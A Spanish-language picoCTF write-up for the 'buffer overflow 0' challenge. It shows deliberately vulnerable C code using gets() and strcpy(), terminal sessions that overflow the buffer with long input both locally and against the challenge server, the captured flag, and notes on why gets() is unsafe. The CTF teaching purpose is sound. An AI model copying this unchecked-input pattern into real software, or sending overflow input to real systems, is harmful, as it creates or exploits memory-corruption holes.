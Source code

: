 # buffer overflow 0

## Descripción: 
Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/172/vuln). You can view source [here](https://artifacts.picoctf.net/c/172/vuln.c). And connect with it using:
`nc saturn.picoctf.net 63397`

**Pistas:**
1. How can you trigger the flag to print?

2. If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

 3. Run `man gets` and read the BUGS section. How many characters can the program really read?

## Solución:
1. En este reto se nos dan dos archivos uno es un ejecutable y el otro es el código fuente:  

```bash
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$ ls
vuln  vuln.c
                                                                                       
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$ ls -la    
total 28
drwxr-xr-x 2 kali kali  4096 may 13 13:48 .
drwxr-xr-x 5 kali kali  4096 may 13 13:48 ..
-rw-r--r-- 1 kali kali 16016 mar 15 23:16 vuln
-rw-r--r-- 1 kali kali   808 mar 15 23:16 vuln.c
                                                                                       
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$ file *               
vuln:   ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b53f59f147e1b0b087a736016a44d1db6dee530c, for GNU/Linux 3.2.0, not stripped
vuln.c: C source, ASCII text
                                                                                       
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$ cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
                                                                                       
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$ 
```

2. Le damos permisos de ejecución al script y lo ejecutamos:

```bash
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$ chmod +x vuln 
                                                                                       
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$ ls -la
total 28
drwxr-xr-x 2 kali kali  4096 may 13 13:48 .
drwxr-xr-x 5 kali kali  4096 may 13 13:48 ..
-rwxr-xr-x 1 kali kali 16016 mar 15 23:16 vuln
-rw-r--r-- 1 kali kali   808 mar 15 23:16 vuln.c
                                                                                       
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$ ./vuln 
Please create 'flag.txt' in this directory with your own debugging flag.
```

3. Probamos el programa con una bandera de prueba de forma local ya que al parecer hay un error critico en el código en donde si le pasamos una entrad que sobrepase el tamaño del `buffer` nos arroga la bandera local:  

```bash
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$ echo "flag[dummieflag]" > flag.txt
                                                                                
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$ ls
flag.txt  vuln  vuln.c
                                                                                
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$ ./vuln 
Input: fklashfao
The program will exit now
                                                                                
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$ ./vuln
Input: lkafhsjkfhsjkhgkjshgjkhashfjkashgjkhasjkghjkshgjkshjkghsdjkghkjsdhjkghjksdhgkjshgjkhsjkdghsdjkhgjkdshgjkhsdghiuergioshgsglqghegJGklhsgkdfhgkldslghdkhdklghdfhklgfdklhjflkdjhlkfdjhlkdfjhlkjdlkhkldjhlkj
flag[dummieflag]

                                                                                
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$
```

4. Ahora lo probamos remotamente en `nc saturn.picoctf.net 63397`:

```bash
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$ nc saturn.picoctf.net 63397                                    
Input: lghksdghdkfghkdfhgkdfkdfhdfljhksdfjkghlkdfhkdfiuhoidfhlflkhnkdfnbkdiorhhdfhbkldfnbklndkdsfbknfkdbndfksbioerhiobfkdbnkdfhboidhfbldfnbdnkbdiobhoidhbondnfklbhdhboidlkbnkldfnbhdiodklbkldnbklddjbkhioewopqoperopboejblkdkldfdlkblfjlkfjlb
picoCTF{ov3rfl0ws_ar3nt_that_bad_8446a0c3}
                                                                                
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_0]
└─$ 
```

### Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_8446a0c3}

## Notas adicionales:

### gets():

**DESCRIPCIÓN:**
Nunca use esta función.
`gets()` lee una línea de `stdin` en el búfer al que apunta `s `hasta que termina una nueva línea o`EOF`, que reemplaza con un byte nulo ('\0'). No se realiza ninguna comprobación de saturación de búfer (ver ERRORES a continuación).

**VALOR DEVUELTO:**
`gets() `devuelve `s` en caso de éxito y NULL en caso de error o cuando se produce el final del archivo mientras no se han leído caracteres. Sin embargo, dada la falta de verificación de saturación de búfer, no puede haber garantías de que la función regrese.

**Errores y Vulnerabilidades:**
La función `gets()` en C es conocida por ser propensa a errores y vulnerabilidades de seguridad. Esto se debe a que `gets()` no realiza ninguna verificación de límites de entrada, lo que significa que no hay ninguna forma de evitar que se ingresen más caracteres de los que puede manejar un búfer de entrada.

En lugar de usar `gets()`, se recomienda usar `fgets()`, que es una función más segura. `fgets()` acepta un argumento adicional que especifica el tamaño máximo del búfer de entrada, lo que ayuda a prevenir desbordamientos de búfer.

En general, siempre es importante asegurarse de que cualquier entrada de usuario se valide y se maneje adecuadamente para evitar errores y vulnerabilidades de seguridad en cualquier programa de C.

## Referencias:
- https://es.wikipedia.org/wiki/SIGSEGV
